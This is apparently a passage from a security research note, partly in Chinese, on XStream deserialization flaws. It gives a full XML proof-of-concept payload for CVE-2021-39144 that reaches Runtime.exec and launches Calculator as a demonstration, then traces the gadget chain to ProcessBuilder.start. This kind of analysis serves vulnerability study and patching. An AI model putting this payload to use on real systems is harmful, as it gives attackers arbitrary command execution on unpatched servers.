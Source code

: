 ```
                                              javax.naming.spi.NamingManager.getContext()
                                                javax.naming.spi.NamingManager.getObjectInstance()
```


### CVE-2021-39144
* Affected Version <= 1.4.17
* POC
```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
    </default>
    <int>3</int>
    <dynamic-proxy>
      <interface>java.lang.Comparable</interface>
      <handler class='sun.tracing.NullProvider'>
        <active>true</active>
        <providerType>java.lang.Comparable</providerType>
        <probes>
          <entry>
            <method>
              <class>java.lang.Comparable</class>
              <name>compareTo</name>
              <parameter-types>
                <class>java.lang.Object</class>
              </parameter-types>
            </method>
            <sun.tracing.dtrace.DTraceProbe>
              <proxy class='java.lang.Runtime'/>
              <implementing__method>
                <class>java.lang.Runtime</class>
                <name>exec</name>
                <parameter-types>
                  <class>java.lang.String</class>
                </parameter-types>
              </implementing__method>
            </sun.tracing.dtrace.DTraceProbe>
          </entry>
        </probes>
      </handler>
    </dynamic-proxy>
    <string>open /System/Applications/Calculator.app</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

#### 漏洞成因
```
AbstractReflectionConverter.unmarshal()
  PriorityQueue.readObject()
    PriorityQueue.heapify()
      PriorityQueue.siftDown()
        PriorityQueue.siftDownComparable()
          com.sun.proxy.$Proxy0.compareTo()
            sun.tracing.ProviderSkeleton.invoke()
              sun.tracing.ProviderSkeleton.triggerProbe()
                sun.tracing.dtrace.DTraceProbe.uncheckedTrigger()
                  ProcessBuilder.start()
```
CVE-2021-39141与之类似，但是在`com.sun.proxy.$Proxy0.compareTo()`之后调用了不同的invoke
```
```